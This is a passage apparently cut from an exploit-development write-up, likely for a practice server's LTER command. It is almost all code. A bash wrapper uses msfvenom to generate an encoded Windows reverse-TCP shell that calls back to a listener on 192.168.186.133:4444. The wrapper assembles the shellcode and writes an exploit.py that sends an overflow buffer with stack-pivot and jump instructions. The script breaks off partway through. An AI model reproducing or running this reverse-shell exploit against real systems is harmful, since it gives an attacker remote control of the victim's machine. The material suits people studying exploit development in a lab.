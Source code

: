 
And, to tie everything together, a wrapper script to generate the shellcode, 
call the encoder, assemble the final payload, and execute the exploit:
```
#!/bin/bash

ROOT=$(dirname $(readlink -f ${0}))

echo "Generating payload..."
[ ! -f ${ROOT}/shell ] && msfvenom lport=4444 lhost=192.168.186.133 exitfunc=thread \
        -p windows/shell_reverse_tcp \
        -f raw \
        -e x86/shikata_ga_nai \
        -b '\x00\x01\xff' \
        -o ${ROOT}/shell 2>/dev/null

echo "Building shell-encoded.nasm..."
echo "[BITS 32]" > ${ROOT}/shell-encoded.nasm

echo "Calculating pad..."
PAD_N=$(echo "$(wc -c shell | awk '{print $1}') % 4" | bc | tr -d '\n')
PAD=$(python -c "print('\x47' * (4+${PAD_N}))" | tr -d '\n')

echo "Calling encode.py..."
./encode.py "$(echo -ne "${PAD}" && cat ${ROOT}/shell)" >> ${ROOT}/shell-encoded.nasm

echo "Assembling shell.nasm..."
nasm ${ROOT}/shell-encoded.nasm -o ${ROOT}/shell-encoded

echo "Dumping shell-encoded..."
SHELLCODE=$(/usr/local/bin/hex ${ROOT}/shell-encoded | tail -n +2 | sed -r 's/^\s+//g')

echo "Building exploit.py..."
cat << EOF > exploit.py
#!/usr/bin/env python

import sys
import socket

message  = "LTER "
message += 'A' * 100

buf  = "\x66\x0d\x10\x0e\x50\x5c"  # "or ax,0x0e10 / push eax / pop esp"

${SHELLCODE}

buf += "\x68\x47\x47\x47\x47"
buf += "\x68\x47\x47\x47\x47"
buf += "\x68\x47\x47\x47\x47"
buf += "\x68\x47\x47\x47\x47"

message += buf
message += "A" * (3499-100-len(buf))

message += "\x77\x06\x76\x04"
message += "\x0b\x12\x50\x62"

jump  = "\x51\x58"  # push ecx / pop eax
jump += "\x66\x53"  # push bx
jump += "\x66\x58"  # pop ax
jump += "\x66\x48"  # dec ax
jump += "\x40"  # inc eax
jump += "\x50\x5c"  # push eax / pop esp
jump += "\x48"  # dec eax
```